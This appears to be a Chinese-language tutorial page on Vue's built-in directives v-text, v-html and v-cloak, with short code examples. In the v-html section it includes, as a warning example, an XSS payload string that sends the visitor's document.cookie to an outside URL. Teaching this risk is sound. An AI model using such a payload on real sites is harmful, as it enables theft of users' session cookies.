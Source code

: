 

## Vue內置指令
1. `v-text`
    - 作用：向其所在的節點中渲染文本內容

    - 與插值語法的區別：<font color="#f54747">`v-text`會替換掉節點中的內容，插值語法則不會</font>

    - 具體代碼：
        ```vue
        <div v-text="'Hello, ' + name"></div>
        
        <script>
        new Vue({
            data:{
                name:'Donald'
            },
        })
        </script>
        ```


2. `v-html`
    - 作用：向指定節點中渲染包含html結構的內容

    - 與插值語法的區別：
        1. `v-html`會替換掉節點中的所有內容
        2. `v-html`可以識別`html`結構

    - <font color="#f54747">嚴重注意：v-html有安全性問題：</font>
        1. 在網站上動態渲任意HTML是非常危險的，容易導致XSS攻擊
        2. 一定要在可信的內容上使用v-html，永遠不要再用戶提交的內容上使用

    - 具體代碼：
        ```vue
        <div v-html="str"></div>
        <div v-html="str2"></div>
        
        <script>
        new Vue({
            data:{
                str: '<h3>Hello World</h3>',
                // 竊取用戶cookie
                str2: '<a href=javascript:location.href="http://www.google.com?" + document.cookie>Click Me</a>'
            },
        })
        </script>
        ```


3. `v-cloak`
    - 作用：
        - 本質是一個特殊屬性，Vue實例創建完畢並接管容器後，會刪除`v-cloak`屬性
        - 使用css配合`v-cloak`可以解決網速慢時頁面展示出的`{{xxx}}`問題
    
    - 具體代碼：
        ```vue
        <style>
            [v-cloak]{
                /* 避免出現的樣式丟失問題 */
                display: none;
            }
        </style>
        ```
